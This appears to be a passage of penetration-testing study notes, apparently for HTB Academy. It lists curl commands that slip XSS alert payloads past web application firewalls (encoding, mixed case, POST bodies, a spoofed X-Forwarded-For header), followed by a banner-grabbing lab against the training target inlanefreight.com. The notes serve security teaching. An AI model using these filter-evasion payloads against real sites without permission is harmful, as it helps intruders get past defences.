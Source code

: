 ### **Basic WAF Bypass Techniques**
```bash
# URL encoding
curl "https://example.com/?test=%3Cscript%3Ealert(1)%3C/script%3E"

# Mixed case
curl "https://example.com/?test=<ScRiPt>alert(1)</ScRiPt>"

# Double encoding
curl "https://example.com/?test=%253Cscript%253Ealert(1)%253C/script%253E"

# Using different HTTP methods
curl -X POST https://example.com/search -d "query=<script>alert(1)</script>"

# Custom headers
curl -H "X-Forwarded-For: 127.0.0.1" https://example.com
```

---

## **HTB Academy Lab Examples**

### **Lab 1: Fingerprinting inlanefreight.com**

#### **Banner Grabbing with curl**
```bash
# Basic HTTP headers
curl -I inlanefreight.com

# Expected output:
# HTTP/1.1 301 Moved Permanently
# Date: Fri, 31 May 2024 12:07:44 GMT
# Server: Apache/2.4.41 (Ubuntu)
# Location: https://inlanefreight.com/
# Content-Type: text/html; charset=iso-8859-1

# Follow redirects to HTTPS
curl -I https://inlanefreight.com

# Shows WordPress redirection:
# HTTP/1.1 301 Moved Permanently
# Server: Apache/2.4.41 (Ubuntu)
# X-Redirect-By: WordPress
# Location: https://www.inlanefreight.com/

# Final destination
curl -I https://www.inlanefreight.com

# Shows WordPress-specific headers:
# HTTP/1.1 200 OK
# Server: Apache/2.4.41 (Ubuntu)
# Link: <https://www.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
# Link: <https://www.inlanefreight.com/index.php/wp-json/wp/v2/pages/7>; rel="alternate"
```
